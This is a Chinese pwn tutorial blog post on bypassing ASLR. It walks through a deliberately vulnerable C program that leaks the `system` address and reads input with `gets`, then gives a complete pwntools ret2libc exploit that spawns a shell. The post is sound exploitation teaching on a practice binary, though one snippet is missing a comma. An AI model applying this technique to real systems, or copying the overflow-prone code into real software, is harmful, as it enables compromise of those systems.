 ```yaml
---
title: '利用已泄漏信息绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c
#include <stdio.h>
#include <stdlib.h>

void vuln() {
  char buffer[20];

  printf("System is at: %lp\n", system);

  gets(buffer);
}

int main() {
  vuln();

  return 0;
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

就像我们对 PIE 所做的那样，只不过这次我们输出 `system` 的地址。

## 0x02 分析

```
$ ./vuln-32
System is at: 0xf7c4f610
```

<Note>
  你的系统地址可能以不同的字符结尾。但这只是说明你用的是不同的 libc 版本。
</Note>

## 0x03 利用

其中大部分与我们对 PIE 所做的一样。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

解析 `system` 地址并从中计算 libc 基址（就像我们对 PIE 所做的那样）。

```python
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')
```

现在我们终于可以使用 libc ELF 对象来实现 `ret2libc` 了。

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

LINK

自己尝试 :)

## 0x05 使用 pwntools 优化

```python
payload = flat(
    'A' * 32,
    libc.sym['system']
    0x0,
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)
```

你可以将上面的 payload 写得更加 pwntoolsy。

```python
shell = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
rop.raw('A' * 32)
rop.system(shell)

p.sendline(rop.chain())
```

这样做的好处是更具可读性，而且也更容易在 64-bit 漏洞利用中重用。因为所有参数都会自动为你解析。

